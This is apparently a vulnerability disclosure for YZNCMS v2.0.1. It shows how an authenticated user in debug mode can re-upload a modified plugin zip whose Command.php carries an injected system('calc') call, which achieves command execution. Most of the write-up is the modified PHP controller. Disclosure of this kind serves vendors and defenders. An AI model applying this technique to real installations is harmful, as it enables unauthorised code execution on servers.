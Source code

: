 ## File Upload Vulnerability

In the latest version of YZNCMS v2.0.1, there is a command execution vulnerability in the plugin installation feature when the debug mode is enabled. Attackers can modify the plugin zip file locally and upload it, triggering command execution through the plugin functionality.

Log in to the backend and choose any plugin to install using the plugin installation feature.
![](./public/1.png)

Upon debugging, it was found that the installed plugin zip file is stored in `runtime\admin\addons\command.zip`.

Download this zip file and modify the controller file `app\admin\controller\Command.php`. Change the code in the `command` method to execute the command `calc`:
```php
    if ($action == 'execute') {
            system('calc');
            $result = $this->doexecute($commandtype, $argv);
            $this->success("", null, ['result' => $result]);
        } else {
            $this->success("", null, ['command' => "php think {$commandtype} " . implode(' ', $argv)]);
        }
```
The complete modified code is as follows:
```php
    public function command($action = '')
    {
        $commandtype = $this->request->request("commandtype");
        $params      = $this->request->request();
        $allowfields = [
            'crud' => 'table,controller,model,fields,force,local,delete,menu',
            'menu' => 'controller,force,delete',
            'min'  => 'module,resource,optimize',
        ];
        $argv        = [];
        $allowfields = isset($allowfields[$commandtype]) ? explode(',', $allowfields[$commandtype]) : [];
        $allowfields = array_filter(array_intersect_key($params, array_flip($allowfields)));

        if (isset($params['local']) && !$params['local']) {
            $allowfields['local'] = $params['local'];
        } else {
            unset($allowfields['local']);
        }
        foreach ($allowfields as $key => $param) {
            $argv[] = "--{$key}=" . (is_array($param) ? implode(',', $param) : $param);
        }
        if ($commandtype == 'crud') {
            $extend    = 'setcheckboxsuffix,enumradiosuffix,imagefield,filefield,intdatesuffix,switchsuffix,citysuffix,selectpagesuffix,selectpagessuffix,ignorefields,sortfield,editorsuffix,headingfilterfield,tagsuffix,jsonsuffix,fixedcolumns';
            $extendArr = explode(',', $extend);
            foreach ($params as $index => $item) {
                if (in_array($index, $extendArr)) {
                    foreach (explode(',', $item) as $key => $value) {
                        if ($value) {
                            $argv[] = "--{$index}={$value}";
                        }
                    }
                }
            }
            $isrelation = (int) $this->request->request('isrelation');
            if ($isrelation && isset($params['relation'])) {
                foreach ($params['relation'] as $index => $relation) {
                    foreach ($relation as $key => $value) {
                        $value            = (is_array($value) ? implode(',', $value) : $value);
                        $value && $argv[] = "--{$key}=" . $value;
                    }
                }
            }
        } elseif ($commandtype == 'menu') {
            foreach (explode(',', $params['controllerfile']) as $index => $param) {
                if ($param) {
                    $argv[] = "--controller=" . substr($param, 0, -4);
                }
            }
        }
        if ($action == 'execute') {
            system('calc');
            $result = $this->doexecute($commandtype, $argv);
            $this->success("", null, ['result' => $result]);
        } else {
            $this->success("", null, ['command' => "php think {$commandtype} " . implode(' ', $argv)]);
        }
    }
```
In debug mode, the attacker can upload the locally modified plugin zip file and trigger command execution.

Using this plugin, click "Execute Now" and successfully open the calculator.
![](./public/2.png)